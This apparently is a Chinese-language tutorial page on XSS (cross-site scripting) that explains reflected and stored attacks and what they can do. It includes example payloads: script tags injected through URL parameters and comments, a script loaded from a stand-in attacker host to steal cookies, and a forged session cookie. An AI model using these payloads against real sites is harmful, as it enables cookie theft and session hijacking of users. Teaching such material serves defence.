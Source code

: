 # 常见web攻击

## * XSS

> XSS (Cross-Site Scripting)，跨站脚本攻击，因为缩写和CSS重叠，所以只能叫XSS。

**定义**

跨站脚本攻击是指通过存在安全漏洞的Web⽹站注册⽤户的浏览器内运⾏⾮法的非本站点HTML标签或JavaScript进⾏的⼀种攻击。

**跨站脚本攻击有可能造成以下影响:**

- 利⽤虚假输⼊表单骗取⽤户个⼈信息。
- 利⽤脚本窃取⽤户的Cookie值，被害者在不知情的情况下，帮助攻击者发送恶意请求。
- 显示伪造的⽂章或图⽚。

### XSS攻击分类

#### 反射型- url参数直接注⼊

```js
//普通
http://localhost:3000/?from=china

// alert尝试
http://localhost:3000/?from=<script>alert(3)</script>

// 获取Cookie
http://localhost:3000/?from=<script src="http://localhost:4000/hack.js">
</script>

// 短域名伪造 https://dwz.cn/

// 伪造 cookie ⼊侵 chrome
document.cookie="kaikeba:sess=eyJ1c2VybmFtZSI6Imxhb3dhbmciLCJfZXhwaXJlIjox
NTUzNTY1MDAxODYxLCJfbWF4QWdlIjo4NjQwMDAwMH0="
```

#### 存储型-存储到DB后读取时注⼊

```js
// 评论
<script>alert(1)</script>
// 跨站脚本注⼊
我来了<script src="http://localhost:4000/hack.js"></script>
```

### XSS攻击的危害

> Scripting 能⼲啥就能⼲啥

- 获取⻚⾯数据
- 获取Cookies
- 劫持前端逻辑
- 发送请求
- 偷取⽹站的任意数据
- 偷取⽤户的资料
- 偷取⽤户的秘密和登录态
- 欺骗⽤户
